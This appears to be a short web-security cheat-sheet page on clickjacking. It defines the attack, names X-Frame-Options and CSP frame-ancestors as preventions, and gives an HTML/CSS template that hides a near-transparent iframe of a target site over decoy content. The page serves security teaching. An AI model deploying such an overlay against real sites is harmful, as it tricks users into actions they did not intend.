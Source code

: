 # Clickjacking

## General

{% hint style="info" %}
Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

* Preventions:
  * X-Frame-Options: deny/sameorigin/allow-from
  * CSP: policy/frame-ancestors 'none/self/domain.com'
{% endhint %}

```markup
# An example using the style tag and parameters is as follows:
<head>
  <style>
    #target_website {
      position:relative;
      width:128px;
      height:128px;
      opacity:0.00001;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
...
<body>
  <div id="decoy_website">
  ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```

